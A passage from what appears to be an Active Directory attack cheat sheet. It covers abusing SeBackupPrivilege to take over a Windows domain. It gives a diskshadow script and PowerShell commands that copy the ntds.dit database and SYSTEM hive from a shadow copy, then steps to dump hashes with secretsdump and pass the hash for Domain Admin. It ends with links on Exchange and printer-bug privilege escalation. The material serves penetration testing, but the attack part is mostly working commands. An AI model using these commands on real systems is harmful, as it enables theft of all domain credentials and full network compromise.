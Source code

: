     create
    
    expose %mydrive% w:
    end backup
    }
    
    #Execute diskshadow with our script as parameter
    diskshadow /s script.txt
    ```
    
    ⧉ Copied!
    
2.  Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just
    simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are
    going to use [this](https://github.com/giuliano108/SeBackupPrivilege) amazing repo:
    
    ```powershell
    #Importing both dlls from the repo using powershell
    Import-Module .\SeBackupPrivilegeCmdLets.dll
    Import-Module .\SeBackupPrivilegeUtils.dll
    
    #Checking if the SeBackupPrivilege is enabled
    Get-SeBackupPrivilege
    
    #If it isn't we enable it
    Set-SeBackupPrivilege
    
    #Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
    Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
    
    #Dump the SYSTEM hive
    reg save HKLM\SYSTEM c:\temp\system.hive
    ```
    
    ⧉ Copied!
    
3.  Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
    
4.  Use secretsdump.py from impacket and dump the hashes.
    
5.  Use psexec or another tool of your choice to PTH and get Domain Admin access.
    

### Abusing Exchange

- [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange

### Weaponizing Printer Bug

- [Printer Server Bug to Domain Administrator](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
- [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

